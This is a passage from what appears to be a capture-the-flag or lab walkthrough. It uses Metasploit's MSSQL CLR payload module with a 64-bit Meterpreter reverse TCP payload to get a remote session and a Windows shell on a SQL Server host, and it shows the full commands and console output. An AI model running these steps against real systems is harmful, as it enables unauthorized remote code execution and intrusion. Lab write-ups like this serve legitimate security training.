#### Step 5: The Architecture Fix
Let's try switching to a 64-bit payload since the exploit description mentions it's tested on x64 systems:

```bash
# Set 64-bit payload for Windows
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Run the exploit again
exploit
```

**Command Results:**
```
msf6 exploit(windows/mssql/mssql_clr_payload) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/mssql/mssql_clr_payload) > exploit

[*] Started reverse TCP handler on 10.10.47.2:4444
[-] 10.5.23.147:1433 - Getting EXITFUNC to 'thread' so we don't kill SQL Server
[-] 10.5.23.147:1433 - Database does not have TRUSTWORTHY setting on, enabling ...
[-] 10.5.23.147:1433 - Database does not have CLR support enabled, enabling ...
[-] 10.5.23.147:1433 - Using version specific SQL CLR payload Assembly
[-] 10.5.23.147:1433 - Adding custom SQL CLR payload as new Assembly...
[-] 10.5.23.147:1433 - Executing the payload ...
[-] 10.5.23.147:1433 - Removing stored procedure ...
Sending stage (201798 bytes) to 10.5.23.147
[*] 10.5.23.147:1433 - Restoring CLR setting ...
[*] 10.5.23.147:1433 - Restoring Trustworthy setting ...
[*] Meterpreter session 1 opened (10.10.47.2:4444 -> 10.5.23.147:49322) at 2025-01-19 18:54:31 +0530

meterpreter >
```

🎉 **Success!** That did the trick! Notice how the exploit automatically enabled the necessary SQL Server settings (TRUSTWORTHY and CLR support) and then cleaned up after itself. We now have a Meterpreter session!

#### Step 6: System Access and Flag Hunting
Now let's drop into a system shell and start exploring:

```bash
# Drop to system shell
shell
```

**Shell Access:**
```
meterpreter > shell
Process 2588 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```
